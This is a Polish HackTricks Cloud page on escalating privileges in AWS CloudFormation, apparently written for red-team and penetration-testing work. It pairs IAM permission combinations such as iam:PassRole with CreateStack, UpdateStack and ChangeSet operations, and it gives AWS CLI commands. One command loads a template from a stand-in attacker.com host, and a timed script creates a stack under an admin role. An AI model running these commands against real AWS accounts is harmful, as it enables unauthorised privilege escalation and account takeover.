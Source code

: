 # AWS - Eskalacja uprawnień w CloudFormation

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## cloudformation

Aby uzyskać więcej informacji na temat cloudformation, sprawdź:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Atakujący posiadający te uprawnienia **może eskalować uprawnienia**, tworząc **stos CloudFormation** z niestandardowym szablonem, hostowanym na swoim serwerze, aby **wykonywać działania na podstawie uprawnień określonej roli:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na następnej stronie masz **przykład wykorzystania** z dodatkowym uprawnieniem **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potencjalne skutki:** Podniesienie uprawnień do określonej roli usługi CloudFormation.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

W tym przypadku możesz **wykorzystać istniejący stos CloudFormation** do jego aktualizacji i eskalacji uprawnień, tak jak w poprzednim scenariuszu:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Uprawnienie `cloudformation:SetStackPolicy` może być wykorzystane do **nadania sobie uprawnienia `UpdateStack`** dla stosu i przeprowadzenia ataku.

**Potencjalne skutki:** Przywileje dostępu do roli usługi cloudformation.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Jeśli masz to uprawnienie, ale **brak uprawnienia `iam:PassRole`**, nadal możesz **aktualizować używane stosy** i nadużywać **przypisane już role IAM**. Sprawdź poprzednią sekcję dla przykładu wykorzystania (tylko nie wskazuj żadnej roli w aktualizacji).

Uprawnienie `cloudformation:SetStackPolicy` może być wykorzystane do **nadania sobie uprawnienia `UpdateStack`** dla stosu i przeprowadzenia ataku.

**Potencjalne skutki:** Przywileje dostępu do roli usługi cloudformation, która jest już przypisana.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Atakujący posiadający uprawnienia do **przekazywania roli oraz tworzenia i wykonywania ChangeSet** może **tworzyć/aktualizować nowy stos cloudformation i nadużywać ról usługi cloudformation** tak jak w przypadku CreateStack lub UpdateStack.

Poniższy exploit to **wariacja**[ **exploitu CreateStack**](./#iam-passrole-cloudformation-createstack) wykorzystującego **uprawnienia ChangeSet** do tworzenia stosu.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Uprawnienie `cloudformation:SetStackPolicy` może być wykorzystane do **nadania sobie uprawnień `ChangeSet`** dla stosu i przeprowadzenia ataku.

**Potencjalne skutki:** Przywileje dostępu do ról usługi CloudFormation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

To jest podobna metoda jak poprzednia, ale bez przekazywania **ról IAM**, więc można po prostu **wykorzystać już dołączone role**, wystarczy zmodyfikować parametr:
```
--change-set-type UPDATE
```
**Potencjalne skutki:** Podniesienie uprawnień do roli usługi CloudFormation, która jest już dołączona.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Atakujący mógłby wykorzystać te uprawnienia do tworzenia/aktualizacji zestawów stosów w celu nadużycia dowolnych ról CloudFormation.

**Potencjalne skutki:** Podniesienie uprawnień do ról usługi CloudFormation.

### `cloudformation:UpdateStackSet`

Atakujący mógłby wykorzystać to uprawnienie bez uprawnienia passRole do aktualizacji zestawów stosów w celu nadużycia dołączonych ról CloudFormation.

**Potencjalne skutki:** Podniesienie uprawnień do dołączonych ról CloudFormation.

## Referencje

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
